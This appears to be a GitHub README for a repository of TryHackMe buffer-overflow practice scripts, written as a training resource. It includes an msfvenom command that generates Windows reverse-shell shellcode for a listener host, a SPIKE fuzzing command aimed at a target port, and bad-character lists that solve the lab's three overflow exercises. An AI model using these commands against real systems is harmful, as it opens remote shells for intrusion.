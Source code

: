 # THM_Buffer-Overflow-Prep

Each folder numbered from 1 to x contains the scripts from fuzzing to the stage of creating a final **exploit**

Buffer overflow Room can be Found at:--> https://tryhackme.com/room/bufferoverflowprep

**command used for shellcode generation to Fit with scripts**

     msfvenom -p windows/shell_reverse_tcp LHOST=<The-Listening-ip> LPORT=<Listening-port> -f py -b "\<badChars-specific-to-overflow\>" EXITFUNC=thread -v shellcode

**command to be used with spike scripts to find payload triggering the crash**

     generic_send_tcp <target-ip> 1337{this port is specific to the oscp.exe} fuzz.spk 0 0
    
 More on spike:--> https://resources.infosecinstitute.com/topic/intro-to-fuzzing/
  
# About Fuzz.py Scripts
     
**The fuzz.py scripts will not Display the output Till you press CTRL + C {yeah I know add a except statement but i find no use in it lol} For this very reason a time dealy of 5 seconds is Added so as soon as you see the application crash in immunity press CTRL + C{in 5 sec delay} to stop the script and this would also give us the bytes at which application crashed**
     
     
# OVERFLOW 1

**Bad Chars:--> \x00\x07\x2e\xa0**


# OVERFLOW 2

**Bad Chars:--> \x00\x23\x3c\x83\xa0\xba**

# OVERFLOW 3

**Bad Chars:--> \x00\x11\x40\x5f\xb8\xee**


# NOTE

  *The badChars scripts present in each overflow directory contains a badChars variable from which also badchars specific to the overflow have been eliminated* 
  
 **scripts are to be run with python but you may adjust some encoding in place to make them work with python3** 
 
**Other Overflows will be added as I do them**
